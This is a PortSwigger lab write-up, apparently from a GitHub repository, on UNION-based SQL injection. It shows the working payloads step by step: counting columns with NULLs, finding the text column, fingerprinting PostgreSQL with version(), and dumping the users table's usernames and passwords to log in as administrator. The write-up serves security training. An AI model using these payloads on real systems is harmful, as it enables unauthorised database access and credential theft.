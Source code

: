 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/bb62cddb-eff4-4e33-82b7-2a457ab0d128)

## Solution :
Query made -- 

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>'
```

#### Finding out the number of columns -

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' ' UNION SELECT NULL,NULL--
```

**2 NULL** returns no error , which means there are 2 columns in the database.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/b8bc92f3-9631-468d-ada3-544e50f640b4)

####  Finding out which columns contain text data -

**1st column**

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT 'd',NULL --
```

Internal Server Error

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/49e9d2cc-5f43-4353-8d6f-9fe917ead767)


**2nd Column**

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT NULL,'d' --
```
This column contains text data .

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/d41987fb-4556-4e51-b0d4-4169caa0de96)

### we need find out which version it is  using then only we will be able to concatination string.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/14787ad8-8495-41af-89b1-f177cc665402)

#### For determine the type of database.

The type of database in the second column can be identified by using the version command of each respective database system.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/b9586d00-7085-4324-9de1-80be4f197a86)

**Here it is PostgreSQL**

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT NULL,version() --
```
![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/09240204-6870-4a57-873f-344a3e03a716)

it is using POSTgreSQL 

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/3917cbc6-e246-441a-8e09-c30a21a8bba7)

#### Retreive multiple values in single column -

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT NULL,username||'-'||password FROM users --
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/84b1aa94-4221-4f9b-8b85-6070682d97b4)


got all the users and password.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/c9ad0fa4-f555-43a4-ba11-ff73b8193213)

Successfully logged in as administrator

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/13c81631-4528-4bde-bbbd-45e22111f65f)












